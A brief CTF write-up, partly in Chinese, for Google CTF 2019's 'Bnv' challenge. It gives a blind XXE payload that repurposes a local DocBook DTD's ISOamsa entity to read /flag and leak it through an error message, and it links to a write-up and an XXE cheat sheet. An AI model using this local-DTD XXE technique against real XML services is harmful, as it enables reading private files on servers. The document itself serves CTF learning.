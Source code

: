 # GoogleCTF2019 Quals

## Bnv

Blind-XXE 引用本地DTD

Payload:

利用 ISOamsa

```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamsa '
        <!ENTITY &#x25; file SYSTEM "file:///flag">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
'>
    %local_dtd;
]
```

## 参考资料

Blind-XXE与Google CTF 2019-BNV：

http://saltyfishyu.xmutsec.com/index.php/2019/07/14/50.html

XXE 的一些Payload

https://web-in-security.blogspot.com/2016/03/xxe-cheat-sheet.html